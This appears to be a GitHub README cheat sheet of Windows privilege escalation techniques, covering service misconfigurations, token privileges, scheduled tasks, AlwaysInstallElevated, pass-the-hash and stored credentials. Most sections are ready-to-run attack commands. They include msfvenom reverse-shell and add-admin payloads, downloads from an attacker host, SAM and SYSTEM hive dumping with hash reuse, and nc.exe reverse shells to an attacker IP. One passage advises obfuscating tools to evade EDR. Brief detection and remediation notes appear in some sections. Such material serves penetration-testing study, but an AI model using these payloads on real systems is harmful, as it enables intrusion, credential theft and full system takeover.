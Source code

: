 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName

    
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
<img width="1016" height="237" alt="image" src="https://github.com/user-attachments/assets/b58cd5a7-6d2d-4bba-b200-baa7cc66faee" />
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control
<img width="939" height="407" alt="image" src="https://github.com/user-attachments/assets/e4ea7ead-9a28-4752-9e52-74c28bc09e8b" />

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |Select-Object Name, DisplayName, StartMode, State, StartName, PathName
<img width="1064" height="161" alt="image" src="https://github.com/user-attachments/assets/6fdbbea7-d56e-4cb4-80a3-4f9016f995c8" />
    
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
    or: SharpUp.exe audit
 <img width="974" height="482" alt="image" src="https://github.com/user-attachments/assets/b36466e1-923a-4ddb-8188-bcfb99ac4c76" />
   
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>

<details>
<summary>SeBackupPrivilege</summary>
 <br> 
🔑 What is SeBackupPrivilege?
SeBackupPrivilege is a special Windows permission intended for backup operations.

It allows a user to bypass file ACLs and read any file on the system — even highly sensitive ones like:

C:\Windows\System32\config\SAM

C:\Windows\System32\config\SYSTEM

Attackers can abuse this to extract password hashes and escalate privileges.

🔍 Step 1: Check for SeBackupPrivilege
After getting access (e.g., through Evil-WinRM), check assigned privileges:

powershell

    whoami /priv
   <img width="923" height="339" alt="image" src="https://github.com/user-attachments/assets/18ee9197-db13-4739-b7cf-69ffa64bdf96" />

✅ Look for SeBackupPrivilege in the output.

📁 Step 2: Dump Registry Hives
Create a Temp Directory and Dump SAM & SYSTEM
powershell

    cd C:\
    mkdir Temp
    reg save hklm\sam C:\Temp\sam
    reg save hklm\system C:\Temp\system
 <img width="766" height="416" alt="image" src="https://github.com/user-attachments/assets/5f011469-d495-42eb-8b76-fe2af58a191e" />
   
📥 Step 3: Transfer Files to Kali
Use Evil-WinRM's built-in download command:

powershell

    cd Temp
    download sam
    download system
 <img width="563" height="298" alt="image" src="https://github.com/user-attachments/assets/178f145f-cb49-4cb4-9f82-6e1e424d6658" />
   
🔓 Step 4: Extract Hashes on Kali
🐍 Option 1: Using PyPyKatz
bash

    pypykatz registry --sam sam system
✅ This will output NTLM hashes like:
<img width="1021" height="296" alt="image" src="https://github.com/user-attachments/assets/cf46c206-5e73-4c69-ba4b-3ab653fe5069" />


Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996::
🧰 Option 2: Using Impacket’s secretsdump.py

    cd ~/impacket
    python3 -m venv impacket-env
    source impacket-env/bin/activate
    secretsdump.py -system /home/kali/system -sam /home/kali/sam LOCAL
 <img width="1056" height="320" alt="image" src="https://github.com/user-attachments/assets/9fa97eb3-93ba-496e-9418-ecb08ed1bb24" />
   
🚪 Step 5: Lateral Movement / Privilege Escalation
Use the extracted NTLM hash to pivot or escalate.

🛠️ Option 1: Evil-WinRM (Pass-the-Hash)

evil-winrm -i <target-ip> -u <domain\user> -H <NTLM-hash>
Example:

    evil-winrm -i 192.168.216.130 -u corp\administrator -H 5e0375cf8e440aa58a809d57edd78996
🛠️ Option 2: CrackMapExec

    crackmapexec smb <target-ip> -u Administrator -H <NTLM-hash>
🛠️ Option 3: PsExec (from Impacket)

    psexec.py Administrator@<target-ip> -hashes :<NTLM-hash>
🧑‍💼 Bonus: Enumerate Users (Optional)
If you need to look up domain users on a DC:

powershell

    Get-ADUser -Filter * | Select-Object Name, SamAccountName
Requires ActiveDirectory module, usually available on domain controllers.

🔚 Summary
Step	Action
1️⃣	Check if user has SeBackupPrivilege
2️⃣	Dump SAM and SYSTEM hives using reg save
3️⃣	Download files using evil-winrm
4️⃣	Extract hashes with pypykatz or secretsdump.py
5️⃣	Reuse hashes with Evil-WinRM, CrackMapExec, or PsExec for lateral movement or privilege escalation

 </details>

 <details>
<summary>SeImpersonatePrivilege</summary>
 <br>
🔍 What is SeImpersonatePrivilege?
The SeImpersonatePrivilege is a powerful permission in Windows that allows a user to impersonate the security context of another user. This is typically used by services to act on behalf of a client.

✅ If a low-privileged user account has SeImpersonatePrivilege, it can often be exploited to escalate to SYSTEM or Administrator using various impersonation attacks.

🧠 Why is it dangerous?
This privilege allows attackers to impersonate privileged tokens (like SYSTEM or admin) when certain services or RPC endpoints allow it.

It is commonly exploited in local privilege escalation (LPE) scenarios.

🔍 Identifying SeImpersonatePrivilege
Run this on the target system (PowerShell):

powershell

    whoami /priv | findstr SeImpersonatePrivilege
If you see it as Enabled, you can likely proceed with known exploits.
<img width="1041" height="362" alt="image" src="https://github.com/user-attachments/assets/aeb520d9-af88-4719-b8cb-4707dcabfedb" />

⚙️ Exploitation Tools
🔧 1. PrintSpoofer
PrintSpoofer abuses the SeImpersonatePrivilege via the Print Spooler service to impersonate SYSTEM.

🧪 Steps:
Upload the executable to the target system:

powershell

    upload PrintSpoofer.exe
<img width="1064" height="178" alt="image" src="https://github.com/user-attachments/assets/7d0e6a51-a786-4ae1-85a7-c54c65220d4c" />
    
Run PrintSpoofer to add your user to the Administrators group:

powershell

    .\PrintSpoofer.exe -i -c "net localgroup Administrators <user-name> /add"
-i → impersonate token

-c → command to execute as SYSTEM
<img width="1025" height="77" alt="image" src="https://github.com/user-attachments/assets/fed9f6a6-9e19-4292-9e6d-03c5d0059f91" />

✅ Your user is now part of the Administrators group.

🔧 2. GodPotato
GodPotato is a modern implementation of the RottenPotatoNG/JuicyPotato concept, abusing COM/RPC misconfigurations and SeImpersonate privilege to execute commands as SYSTEM.

🧪 Steps:
Upload the GodPotato executable:

powershell

    upload GodPotato-NET4.exe
Execute the command to add your user to the Administrators group:

powershell

.\GodPotato-NET4.exe -cmd "cmd /c net localgroup Administrators r.andrews /add"
✅ Once executed successfully, the user is elevated.
<img width="1052" height="574" alt="image" src="https://github.com/user-attachments/assets/ef72d9f6-4d43-45c8-8f50-7cca73d7e933" />

✅ Confirming Privilege Escalation
You can now verify that your user has admin access:

powershell

whoami /groups
net user <user-name>
Or list protected directories:

powershell

dir C:\Users\Administrator\
📌 Notes:
These exploits work only locally and require SeImpersonatePrivilege.

These tools may trigger EDR/AV, so obfuscation or alternative binaries might be needed.

Not all Windows builds are vulnerable; ensure the Print Spooler or vulnerable COM servers are available.

🧰 Alternative Tools & Techniques
Tool	Description
JuicyPotato	Legacy COM exploit, works only on older versions
RoguePotato	Bypasses newer Windows protections
PrintSpoofer	Exploits Print Spooler to impersonate SYSTEM
GodPotato	Updated COM exploit using .NET

📚 References
https://github.com/itm4n/PrintSpoofer

https://github.com/BeichenDream/GodPotato

  </details>
  
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
An attacker can exploit Windows Task Scheduler to schedule malicious programs for initial or recurrent execution. For persistence, the attacker typically uses Windows Task Scheduler to launch applications at system startup or at predefined intervals. Furthermore, the attacker executes remote code under the context of a specified account to achieve Privilege Escalation.

Task Scheduler
 You can easily schedule an automatic job using the Task Scheduler service. When you utilize this service, you set up any program to run at a specific date and time that suits your needs. Subsequently, Task Scheduler evaluates the defined time or event criteria and runs the task once those conditions are met.

Abusing Schedule Task/Job
An attacker can escalate privileges by exploiting Schedule Task/Job. Following an initial foothold, we can query to obtain the list for the scheduled task.

    schtasks /query /fo LIST /V
This helps an attack to understand which application is attached to execute Job at what time.
 
 To obtain a reverse shell as NT Authority SYSTEM, first create a malicious EXE file that a scheduled task can execute. Using Msfvenom, we then generate the EXE file and inject it into the target system accordingly.

    msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f exe > shell.exe
To abuse the scheduled Task, the attacker will either modify the application by overwriting it or may replace the original file from the duplicate. To insert a duplicate file in the same directory, we rename the original file as a file.bak.

Then downloaded malicious file.exe in the same directory with the help of wget command.
   
    powershell wget 192.168.1.3/shell.exe –o file.exe
Once the duplicate file.exe is injected in the same directory then, the file.exe will be executed automatically through Task Scheduler. As attackers make sure that netcat listener must be at listening mode for obtaining reverse connection for privilege shell.

    nc -lvp 8888
    whoami /priv

Detection
Tools such as Sysinternals[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns] Autoruns can detect system changes like showing presently scheduled jobs.
Tools like TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview] & Process Explore[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer] may help to identify remote connections for suspicious services or processes.
View Task Properties and History: To view a task’s properties and history by using a command line
Schtasks /Query /FO LIST /V

Enable the “Microsoft-Windows-TaskScheduler/Operational” configuration inside the event logging service to report scheduled task creation and updates.
</details>
<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================
🔍 Overview
AlwaysInstallElevated is a Windows policy setting that, when enabled, allows non-privileged users to install Microsoft Installer Packages (.msi files) with elevated (SYSTEM) privileges. This feature, originally intended for administrative convenience, becomes a serious security misconfiguration if both user-level and machine-level policies are enabled simultaneously.

⚠️ If both registry keys (HKCU and HKLM) have AlwaysInstallElevated = 1, any user can install MSI files with SYSTEM-level privileges.

🧪 Detection
Before exploitation, you need to check if the target machine is misconfigured:

✅ Check via Registry
powershell

    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Both keys must return AlwaysInstallElevated REG_DWORD 0x1 for the system to be vulnerable.
<img width="1061" height="261" alt="image" src="https://github.com/user-attachments/assets/3fad82f8-9c74-4d4d-9290-96e62ce68605" />

✅ Check via Enumeration Tools
Use winPEASany.exe on the target system to automatically enumerate this setting:

powershell

    .\winPEASany.exe all
Look under "Registry - AlwaysInstallElevated" section for any findings.
<img width="1041" height="119" alt="image" src="https://github.com/user-attachments/assets/eb4d5020-8458-41c9-985b-ab6cd9a2f5d1" />

✅ Remote PowerShell Shell Check (Optional)
If you have a reverse shell on the target, verify with:

powershell

    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
Or automate using PowerShell:

powershell

    Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
    Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" | Select-Object AlwaysInstallElevated
💥 Exploitation
Once confirmed vulnerable, you can exploit the system by creating and executing a malicious .msi payload.

🔧 Step 1: Generate a Malicious MSI File
Option 1: Add User to Administrators Group
bash

    msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi -o adduser.msi
Replace USERNAME with the low-privileged user account you want to escalate.

Option 2: Create a Backdoor User
bash

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi
🌐 Step 2: Deliver Payload to Target
Option A: Host on Attacker Machine (Kali)
bash

    python3 -m http.server 8999
Option B: Direct Upload (if you have shell access)
powershell

    upload adduser.msi
Victim-side Download:
powershell

    Invoke-WebRequest -Uri "http://<Attacker-IP>:8999/adduser.msi" -OutFile "adduser.msi"
🚀 Step 3: Execute with SYSTEM Privileges
powershell

    msiexec /quiet /qn /i adduser.msi
/quiet /qn: Ensures the installation is completely silent (no GUI or prompts).

/i: Installs the specified MSI file.

🔎 Post-Exploitation: Verify Success
Confirm that the privilege escalation worked by checking group membership:

powershell
net localgroup administrators
You should now see the new or escalated user added to the Administrators group.
<img width="1062" height="586" alt="image" src="https://github.com/user-attachments/assets/b1865faf-8580-4771-bd50-5ef0742083f8" />

📘 Summary
Step	Description
1. Detect	Query registry or use winPEASany.exe to confirm both HKCU and HKLM values set to 1.
2. Create Payload	Use msfvenom to generate a .msi that adds a user or runs arbitrary commands.
3. Deliver Payload	Host on HTTP server or upload directly.
4. Execute with msiexec	msiexec /quiet /qn /i payload.msi runs it as SYSTEM.
5. Verify	Use net localgroup administrators to confirm elevated privileges.

🔐 Mitigation
Admins should ensure AlwaysInstallElevated is not enabled on both user and machine levels unless explicitly required (which is rare in modern environments).

To disable:

bash
     
     reg delete HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f
     reg delete HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /f

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none


    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"

   </details>

